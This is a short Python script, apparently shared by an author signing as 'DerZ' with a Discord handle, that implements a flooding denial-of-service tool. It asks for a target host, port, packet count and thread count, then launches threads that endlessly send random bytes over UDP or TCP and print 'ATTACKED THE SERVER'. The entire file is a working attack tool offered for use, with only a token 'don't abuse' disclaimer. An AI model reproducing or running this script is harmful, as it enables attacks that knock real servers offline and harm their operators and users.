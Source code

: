 #!/usr/bin/env python3
import random
import socket
import threading

print ("DerZ")                                                               

print       (" >> TOOLS CREATED BY DERZ <<")
print       (" >> DISCORD : DerZ#2861 << ")
print       (">> DON'T ABUSE MY TOOLS <<")                                   
print       (" >> DM ME IF YOU NEED HELP <<")
    
ip = str(input("  HOST/IP:"))
port = int(input(" PORT:"))
choice = str(input(" Yakin Nihh?(y/n):"))
times = int(input(" Paket:"))
threads = int(input(" Threads:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Xs XinZu ATTACKED THE SERVER")
		except:
			print("[!] ERROR SERVER TIME OUT")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Xs XinZu ATTACKED THE SERVER ")
		except:
			s.close()
			print("[*] ERROR SERVER TIME OUT")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
